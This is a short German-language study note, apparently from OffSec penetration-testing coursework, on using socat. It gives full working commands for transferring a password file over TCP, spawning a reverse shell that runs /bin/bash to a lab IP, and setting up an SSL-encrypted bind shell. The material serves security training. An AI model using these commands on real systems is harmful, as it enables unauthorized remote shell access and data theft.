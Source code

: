 # OffSec - Socat 

## File Transfer

Listener mit #Socat auf dem Host öffnen, um Daten zu empfangen und in eine Datei zu schreiben 

`socat TCP4-LISTEN:443,fork file:secret_passwords.txt`

Auf dem Empfänger folgender Befehl:
`socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create`

## Reverseshells

Mit #Socat können auch #Reverseshells eröffnet werden. 

Auf dem Host
```socat -d -d TCP4-LISTEN:443 STDOUT```

Mit dem Angreifer PC folgende #Reverseshell spawnen

```socat TCP4:10.11.0.22:443 EXEC:/bin/bash```

## Socat Encrypted Bind Shells

Mit #Socat können #Ecrypted #BindShells erstellt werden. 
Dazu geht man wie folgt vor:

Auf der Angreifermaschine ein neues #SSL-Zertifikat erzeugen:
`openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`

-   req: initiate a new certificate signing request
-   -newkey: generate a new private key
-   rsa:2048: use RSA encryption with a 2,048-bit key length.
-   -nodes: store the private key without passphrase protection
-   -keyout: save the key to a file
-   -x509: output a self-signed certificate instead of a certificate request
-   -days: set validity period in days
-   -out: save the certificate to a file

Man erhält nun zwei #Zertifikate - bind_shell.key und bind_shell.crt.
Damit #Socat die #Zertifikate akzeptiert, müssen diese in ein .pem-File verwandelt werden.

`cat bind_shell.key bind_shell.crt > bind_shell.pem`

Um nun eine verschlüsselte #BindShell zu erzeugen, wird folgender Befehl beim Angreifer verwendet:
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`

Der Angreifer wartet nun auf eine eingehende Verbindung des Opfers.
Das Opfer baut mit folgendem Befehl eine Verbindung zum Angreifer auf:
`socat - OPENSSL:10.11.0.4:443,verify=0`





